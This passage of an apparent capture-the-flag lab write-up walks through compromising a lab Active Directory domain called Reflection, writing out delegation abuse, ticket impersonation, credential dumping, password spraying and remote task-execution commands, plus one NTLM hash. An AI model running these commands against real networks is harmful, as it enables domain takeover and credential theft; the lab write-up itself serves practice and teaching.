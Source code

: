 To perform this attack first I need to make WS01 trust MS01 using Georgia's right.

`rbcd.py -delegate-from 'MS01$' -delegate-to 'WS01$' -action 'write' 'REFLECTION.VL/Georgia.Price:<..Redacted..>' -dc-ip 10.10.189.69`

![](https://photos.squarezero.dev/file/abir-images/Reflection/20.png)

I have also validated that MS01 can act on behalf of WS01.
`rbcd.py -delegate-to 'WS01$'  -action 'read' 'REFLECTION.VL/Georgia.Price:<..Redacted..>' -dc-ip 10.10.189.69`

![](https://photos.squarezero.dev/file/abir-images/Reflection/21.png)

Now using MS01 I have impersonated the administrator requested a TGT.
`getST.py -spn 'cifs/WS01.REFLECTION.VL' -impersonate 'administrator' 'REFLECTION.VL/MS01$' -hashes :abf3ce6e479dc07cdc441cae4747e3d3 -dc-ip 10.10.189.69`

![](https://photos.squarezero.dev/file/abir-images/Reflection/22.png)

Using the TGT I used serectdumps to dump all credentials stored in WS01 and got password of Rhys Garner.
`RB5CCNAME=administrator.ccache secretsdump.py -k WS01.REFLECTION.VL`

![](https://photos.squarezero.dev/file/abir-images/Reflection/23.png)

# Password Reuse

Rhys has normal user permission. So I decided to use his password to brute-force other users. I used Netexec to extract the usernames of all the users in the domain.

`netexec smb scope.txt -u 'abbie.smith' -p '<..Redacted..>' --users`

![](https://photos.squarezero.dev/file/abir-images/Reflection/29.png)

The password was sprayed using Rhys's password. And dom_rgarner uses the same password.

![](https://photos.squarezero.dev/file/abir-images/Reflection/30.png)

After logging in I got a root flag.

![](https://photos.squarezero.dev/file/abir-images/Reflection/31.png)

# ATEXEC 

I tried to login WS01 using TGT it was giving me an error for some reason.

![](https://photos.squarezero.dev/file/abir-images/Reflection/24.png)

I used ATEXEC which can be used to create and run an immediate scheduled task on a target. 

`atexec.py -hashes :<..Redacted..> administrator@WS01.REFLECTION.VL 'whoami'`

![](https://photos.squarezero.dev/file/abir-images/Reflection/25.png)
